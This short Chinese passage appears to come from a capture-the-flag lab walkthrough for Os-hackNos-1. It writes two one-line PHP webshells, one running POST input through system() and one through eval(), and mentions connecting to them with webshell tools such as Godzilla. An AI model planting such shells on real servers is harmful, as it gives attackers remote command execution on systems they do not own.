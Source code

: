 

在当前目录写一个一句话木马

这里参考的moonsec的

moon.php

```
<?php system($_POST['moon']);?>
```

这里写自己的webshell

php.php

```
<?php @eval($_POST['qwer']);?>
```

后者可以通过菜刀之类的webshell工具进行连接

这里用哥斯拉进行连接

![image-20230628232108952](Os-hackNos-1.assets\image-20230628232108952.png)

![image-20230628232130003](Os-hackNos-1.assets\image-20230628232130003.png)
